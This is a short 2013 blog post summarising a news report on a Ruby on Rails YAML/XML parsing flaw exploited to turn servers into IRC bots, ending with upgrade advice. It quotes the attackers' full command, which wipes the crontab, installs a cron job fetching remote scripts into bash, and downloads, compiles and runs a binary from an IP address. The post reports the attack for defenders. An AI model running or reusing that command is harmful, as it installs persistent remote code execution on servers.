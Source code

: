 ```yaml
---
layout: post
title:  "Ars Technica Article"
date:   2013-06-06 13:01:00
categories: article
---
```


#### Critical Ruby on Rails bug exploited in wild, hacked servers join botnet

On May 28, 2013 an article on [Ars Technica][arstech] reported a malicious Rails bug that inflatrated any server running Rails 2.3.15 and lower. The attackers exploited a flaw in YAML and the rails Symbol type conversion XML parser. Attackers used hyjacked machines to create IRCbots to flood the #rails IRC channel.

Attackers used a linux command similar to this:
{% highlight bash %}
  crontab -r; echo \"1 * * * * wget -O - colkolduld.com/cmd1|bash;wget -O - lochjol.com/cmd2|bash;wget  -O - ddos.cat.com/cmd3|bash;\"|crontab -;wget http://88.198.20.247/k.c -O /tmp/k.c; gcc -o /tmp/k /tmp/k.c; chmod +x /tmp/k; /tmp/k||wget http://88.198.20.247/k -O /tmp/k && chmod +x /tmp/k && /tmp/k
{% endhighlight %}

Rails admins are advised to update to the latest version of Rails (4) or use [these][google] work arounds to avoid this vulnerability. 

[arstech]: http://arstechnica.com/security/2013/05/critical-ruby-on-rails-bug-exploited-in-wild-hacked-servers-join-botnet/
[google]: https://groups.google.com/forum/#!topic/rubyonrails-security/61bkgvnSGTQ/discussion
